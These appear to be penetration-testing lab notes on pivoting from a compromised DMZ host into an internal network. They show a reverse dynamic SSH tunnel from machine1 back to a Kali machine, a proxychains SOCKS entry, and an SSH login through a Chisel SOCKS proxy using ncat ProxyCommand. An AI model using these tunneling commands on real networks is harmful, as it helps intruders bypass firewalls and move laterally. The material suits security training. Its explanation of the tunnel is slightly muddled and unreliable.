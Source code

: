 - Scenario explained:
	- Network Setup:
		- WAN -> Firewall -> DMZ        -> INTERNAL
		- Kali                     -> machine1 -> machine2 -> machine3
	- Got a reverse shell on machine1
		- machine1 can SSH to admin@machine2
	- Our Kali cannot SSH to admin@machine2 as it is internal
	- Firewall blocks us from connecting to any port other than HTTP on machine1
- Solution:
	- Set up an SSH server on our Kali machine
	- Connect from machine1 to our Kali machine over SSH. 
		- `ssh -N -R 9998 kali@192.168.118.4`
			- Sets up a dynamic port forwarding tunnel on machine1, binding it to all network interfaces on port 9998 on the loopback interface of our Kali machine.
				- Allows you to use your local machine as a SOCKS proxy server.
					- Edit proxychains configuration file with the dynamic port forward information
						- `socks5  127.0.0.1 9998`
					- Any network traffic sent through this proxy server will be securely encrypted and forwarded to machine1.

## Run SSH itself through a SOCKS proxy
> SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the _ProxyCommand_ configuration option. We can either write this into a configuration file, or pass it as part of the command line with **-o**.
> 
> ProxyCommand accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the _OpenBSD_ version of Netcat, which exposes the _-X_ flag and can connect to a SOCKS or HTTP proxy.

After Chisel client has created an HTTP WebSocket connection with the server, and SOCKS proxy port 1080 is listening on the loopback interface of our Kali machine.

SSH by passing an Ncat command to ProxyCommand
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' db_superuser@10.10.69.169
```
- `-o` allows you to specify additional options for SSH. E.g., `ProxyCommand`
	- `ProxyCommand`
		- Used to define a command that will act as a proxy for the SSH connection.
- `ncat`
	- Utility that allows you to create and manage network connections. Used here as the proxy command.
- `--proxy-type socks5`
		- Specifies the type of proxy to use E.g., SOCKS5 proxy
- `--proxy 127.0.0.1:1080`
	- Specifies the address and port of the SOCKS proxy server, which is located at `127.0.0.1` (localhost) on port `1080`.
- `%h` and `%p` tokens represent the SSH command host and port values
	- SSH will fill in before running the command
		- In this case, 
			- `%h` will be replaced by `10.10.69.169`
			- `%p` will be replaced by the default SSH port (22).

